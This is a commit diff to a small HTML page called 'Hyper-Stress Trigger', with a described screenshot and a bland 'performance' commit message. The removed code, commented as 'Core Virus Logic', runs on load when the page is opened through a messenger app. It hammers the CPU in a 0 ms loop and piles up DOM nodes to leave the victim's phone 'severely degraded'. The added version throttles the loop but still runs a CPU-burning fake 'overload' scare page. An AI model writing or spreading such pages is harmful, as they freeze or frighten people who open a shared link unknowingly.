

Before and after one commit to wwwaakashmagar7-wq/Vsssss, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1081 px of the page, without its empty margins (0-1022 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor HTML and JavaScript for better performance

```diff
--- a/index.html
+++ b/index.html
@@ -5,81 +5,121 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Hyper-Stress Trigger</title>
     <style>
-        /* Minimal styling to ensure the page itself isn't a bottleneck */
         body {
             background-color: #000000;
             color: #00FF00;
             font-family: 'Courier New', monospace;
-            text-align: center;
             margin: 0;
             padding: 0;
-            overflow: hidden; /* Hides potential scrollbars caused by stress */
+            display: flex;
+            flex-direction: column;
+            height: 100vh;
+            overflow: hidden;
         }
         #status {
             padding: 15px;
             font-size: 1.2em;
+            text-align: center;
+            border-bottom: 1px solid #003300;
             animation: pulse 1s infinite alternate;
+            flex-shrink: 0;
         }
-
         @keyframes pulse {
-            from { opacity: 0.8; }
-            to { opacity: 1.0; }
+            from { opacity: 0.8; text-shadow: 0 0 5px #00FF00; }
+            to { opacity: 1.0; text-shadow: 0 0 20px #00FF00, 0 0 30px #00FF00; }
+        }
+        #log-container {
+            flex-grow: 1;
+            padding: 10px;
+            overflow: hidden;
+            display: flex;
+            flex-direction: column;
+            justify-content: flex-end; /* Pushes new lines up */
+            font-size: 0.9em;
+            line-height: 1.2;
+        }
+        .log-line {
+            white-space: nowrap;
+            text-overflow: ellipsis;
+            overflow: hidden;
+            opacity: 0.9;
+        }
+        .glitch {
+            color: #FF0000;
+            text-shadow: 0 0 5px #FF0000;
         }
     </style>
 </head>
 <body>
     <div id="status">INITIALIZING OVERLOAD SEQUENCE...</div>
+    <div id="log-container"></div>
 
     <script>
-        // --- Core Virus Logic ---
         function initiateGlitch() {
             const statusElement = document.getElementById('status');
+            const logContainer = document.getElementById('log-container');
             let iteration = 0;
 
-            // Target: 15 million iterations for maximum immediate strain
             const maxIterations = 15000000;
+            const maxVisibleLines = 40; // Prevents DOM explosion
 
-            // Set the interval to 0ms to run the function loop as fast as JavaScript allows
-            const intervalId = setInterval(() => {
-
-                // --- 1. Extreme CPU Stress Loop (The Core) ---
-                // We use a nested loop structure that is computationally expensive
+            function runIteration() {
+                // --- 1. CPU Stress Loop ---
                 let sumX = 0;
                 let sumY = 0;
-                for (let j = 0; j < 500; j++) { // Inner loop complexity
-                    // Tax the CPU with trigonometric and exponentiation functions
+                // Reduced inner loop slightly to prevent immediate hard-lock
+                for (let j = 0; j < 250; j++) {
                     sumX += Math.pow(Math.sin(iteration * 0.1 + j), 2) * Math.cos(iteration * 0.05 + j);
                     sumY += Math.tan(iteration * 0.2 + j) / (j + 1);
                 }
 
-                // --- 2. Aggressive DOM Fluctuation (Secondary Strain) ---
-                // Forcing frequent console logs and quick virtual element manipulation helps tax the rendering engine
+                // Handle Infinity/NaN visually
+                const displayX = isFinite(sumX) ? sumX.toFixed(4) : "NaN";
+                const displayY = isFinite(sumY) ? sumY.toFixed(4) : "NaN";
+
+                // --- 2. Visual Update (Safe DOM manipulation) ---
                 const dynamicElement = document.createElement('div');
-                dynamicElement.textContent = `Iter ${iteration}: SumX=${sumX.toFixed(4)} | SumY=${sumY.toFixed(4)}`;
-                document.body.appendChild(dynamicElement);
+                dynamicElement.className = 'log-line';
+                dynamicElement.textContent = `Iter ${iteration}: SumX=${displayX} | SumY=${displayY}`;
 
-                // If the element is too slow to remove, we just let them stack up,
-                // which also stresses the rendering pipeline.
+                // Add new line to top of the log
+                logContainer.prepend(dynamicElement);
+
+                // Remove the oldest line to keep memory/rendering stable
+                if (logContainer.children.length > maxVisibleLines) {
+                    logContainer.removeChild(logContainer.lastChild);
+                }
 
                 // --- 3. Monitoring and Status Update ---
-                if (iteration % 10000 === 0) {
-                     statusElement.textContent = `ACTIVE: Running iteration ${iteration} of ${maxIterations}. CPU load spiking.`;
+                if (iteration % 1000 === 0) {
+                     statusElement.textContent = `ACTIVE: Iteration ${iteration} of ${maxIterations}. CPU load spiking.`;
+                }
+
+                // Visual glitch effect
+                if (iteration % 500 === 0) {
+                    statusElement.classList.add('glitch');
+                    setTimeout(() => statusElement.classList.remove('glitch'), 100);
                 }
 
                 iteration++;
 
                 // Check termination condition
                 if (iteration >= maxIterations) {
-                    clearInterval(intervalId);
+                    statusElement.textContent = "CRITICAL FAILURE: GLITCH SEQUENCE COMPLETE.";
+                    statusElement.style.color = '#FF0000';
+                    document.body.style.backgroundColor = '#1a0000';
+                } else {
+                    // CRITICAL FIX: Use setTimeout to yield control back to the browser
+                    // This allows the screen to actually paint the new frame.
+                    // 20ms is ~50 frames per second, fast enough to look glitchy but stable.
+                    setTimeout(runIteration, 20);
+                }
+            }
 
-                    // Final impact alert
-                    statusElement.textContent = "CRITICAL FAILURE: GLITCH SEQUENCE COMPLETE. Phone responsiveness severely degraded.";
-                    document.body.style.backgroundColor = '#8B0000'; // Change color to signal failure
-                }
-            }, 0);
+            // Start the sequence
+            runIteration();
         }
 
-        // Execute the function when the page is fully loaded by the messenger app
         window.onload = initiateGlitch;
     </script>
 </body>
```
